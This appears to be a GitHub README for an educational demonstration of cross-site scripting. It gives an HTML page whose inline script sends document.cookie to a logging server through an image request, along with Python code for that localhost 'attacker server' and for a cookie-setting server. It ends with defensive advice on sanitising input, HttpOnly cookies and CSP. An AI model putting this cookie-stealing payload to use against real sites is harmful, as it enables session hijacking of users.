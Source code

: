
# XSS Vulnerability Demonstration

This repository contains a simple demonstration of how an XSS (Cross-Site Scripting) vulnerability can be exploited to capture cookies from a user's browser. It sets up a basic HTTP server that serves an HTML page containing an XSS script, as well as an attacker server that logs the incoming requests to capture the cookie data.

## Prerequisites

- Python 3.x installed on your system
- Basic understanding of HTTP servers and XSS vulnerabilities

## Installation

1. **Clone the Repository**

   ```bash
   git clone https://github.com/your-username/xss-vulnerability-demo.git
   cd xss-vulnerability-demo
   ```

2. **Create the HTML File**

   Ensure the HTML file named `index.html` is present in the same directory as the server scripts. This file contains the XSS script to send cookies to the attacker's server.

   ```html
   <!DOCTYPE html>
   <html lang="en">
   <head>
       <meta charset="UTF-8">
       <meta name="viewport" content="width=device-width, initial-scale=1.0">
       <title>XSS Example</title>
   </head>
   <body>
       <h1>Welcome to the Vulnerable Page</h1>
       <p>This page contains an XSS vulnerability example.</p>
       <script>
           // Log the cookies to the console for verification
           console.log("Cookies:", document.cookie);

           // XSS script that sends cookies to the attacker's server
           var img = new Image();
           img.src = "http://localhost:9000/log?cookie=" + encodeURIComponent(document.cookie);
       </script>
   </body>
   </html>
   ```

## Usage

### Step 1: Run the Main HTTP Server

This server will serve the HTML page and set a unique cookie for each browser session.

1. **Create `server.py`**

   ```python
   from http.server import HTTPServer, SimpleHTTPRequestHandler
   import http.cookies
   import uuid

   class CookieHandler(SimpleHTTPRequestHandler):
       def do_GET(self):
           # Generate a unique session ID for each browser that loads the page
           unique_id = str(uuid.uuid4())  # Create a UUID for the session

           # Create a cookie with the unique session ID
           cookie = http.cookies.SimpleCookie()
           cookie["session_id"] = unique_id
           cookie["session_id"]["path"] = "/"  # Ensure the cookie is accessible site-wide

           # Send the response header with the cookie
           self.send_response(200)
           self.send_header("Content-type", "text/html")
           self.send_header("Set-Cookie", cookie.output(header='', sep=''))
           self.end_headers()

           # Read and send the HTML content
           with open("index.html", "rb") as file:  # Ensure this matches your HTML file name
               self.wfile.write(file.read())

   # Configure and run the server
   PORT = 8000
   server_address = ('', PORT)
   httpd = HTTPServer(server_address, CookieHandler)
   print(f"Serving on port {PORT}")
   httpd.serve_forever()
   ```

2. **Run the Server**

   Open a terminal and run the following command to start the server:

   ```bash
   python server.py
   ```

### Step 2: Run the Attacker Server

This server will log the incoming requests and capture the cookies sent by the XSS script.

1. **Create `attacker_server.py`**

   ```python
   from http.server import HTTPServer, BaseHTTPRequestHandler

   class LoggingHandler(BaseHTTPRequestHandler):
       def do_GET(self):
           # Log the request path, including the cookie data
           print(f"Received request: {self.path}")

           # Send a 200 OK response
           self.send_response(200)
           self.end_headers()

   # Configure and run the logging server
   ATTACKER_PORT = 9000
   server_address = ('', ATTACKER_PORT)
   httpd = HTTPServer(server_address, LoggingHandler)
   print(f"Attacker server running on port {ATTACKER_PORT}")
   httpd.serve_forever()
   ```

2. **Run the Attacker Server**

   Open another terminal and run the following command to start the attacker server:

   ```bash
   python attacker_server.py
   ```

### Step 3: Access the Vulnerable Page

1. Open your web browser and navigate to `http://localhost:8000`.

2. Open the developer console in your browser (usually `F12` or right-click and select "Inspect"), and go to the "Console" tab to verify the cookies.

3. Check the terminal where the attacker server is running to see the logged request, including the cookie data.

### Important Note

This demonstration is intended for educational purposes only. It shows how XSS vulnerabilities can be exploited to capture cookies. Always follow best practices to secure your web applications against such vulnerabilities:

- **Validate and Sanitize Inputs**: Ensure all user inputs are properly validated and sanitized.
- **Use HTTPOnly and Secure Flags**: Set these flags on cookies to prevent JavaScript access and ensure cookies are transmitted only over HTTPS.
- **Implement Content Security Policy (CSP)**: Use CSP headers to prevent inline scripts and control resource loading.

### License

This project is licensed under the MIT License. See the [LICENSE](LICENSE) file for more details.

---

By following these instructions, you should be able to set up a local demonstration of how XSS vulnerabilities can be used to capture cookies. If you have any questions or issues, feel free to open an issue in the repository.
